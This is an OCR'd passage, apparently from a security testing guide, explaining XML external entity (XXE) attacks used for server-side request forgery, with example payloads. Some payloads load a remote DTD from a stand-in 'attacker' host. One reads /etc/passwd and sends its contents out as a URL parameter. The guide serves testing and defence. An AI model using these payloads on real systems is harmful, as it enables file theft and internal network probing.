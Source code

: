 Server Side Request Forgery (SSRF ) happens when the server receives a malicious XML schema, which makes the server retrieve remote resources such as a file, a file via HTTP/HTTPS/FTP, etc. SSRF has been used to retrieve remote files, to prove a XXE when you cannot reflect back the file or perform port scanning, or perform brute force attacks on internal networks.

#### External DNS Resolution

Sometimes is possible to induce the application to perform server-side DNS lookups of arbitrary domain names. This is one of the simplest forms of SSRF, but requires the attacker to analyze the DNS traffic. Burp has a plugin that checks for this attack.

<!DOCTYPE m PUBLIC "-//B/A/EN" "http://'''checkforthisspecificdomain'''.example.com">
#### External Connection

Whenever there is an XXE and you cannot retrieve a file, you can test if you would be able to establish remote connections:

<?xml version="1.0" encoding="UTF-8"?>
`<!DOCTYPE root [ `
` <!ENTITY `**`%` `xxe`**` SYSTEM "`**`http://attacker/evil.dtd`**`"> `
` `**`%xxe;`**
`]>`

#### File Retrieval with Parameter Entities

Parameter entities allows for the retrieval of content using URL references. Consider the following malicious XML document:

<?xml version="1.0" encoding="utf-8"?>
`<!DOCTYPE root [`
` <!ENTITY % `**`file`**` SYSTEM "`**[`file:///etc/passwd`](file:///etc/passwd)**`">`
` <!ENTITY % `**`dtd`**` SYSTEM "`**`http://attacker/evil.dtd`**`">`
` `**`%dtd;`**
`]>`
<root>**`&send;`**</root>

Here the DTD defines two external parameter entities: `file` loads a local file, and `dtd` which loads a remote DTD. The remote DTD should contain something like this::

<?xml version="1.0" encoding="UTF-8"?>
`<!ENTITY % `**`all`**` "<!ENTITY `**`send`**` SYSTEM ''''<nowiki>http://example.com/?%file;'''`*`'>">`*
**`%all;`**

The second DTD causes the system to send the contents of the `file` back to the attacker's server as a parameter of the URL.

#### Port Scanning

The amount and type of information will depend on the type of implementation. Responses can be classified as follows, ranking from easy to complex:

''' 1) Complete Disclosure ''' The simplest and most unusual scenario, with complete disclosure you can clearly see what’s going on by receiving the complete responses from the server being queried. You have an exact representation of what happened when connecting to the remote host.
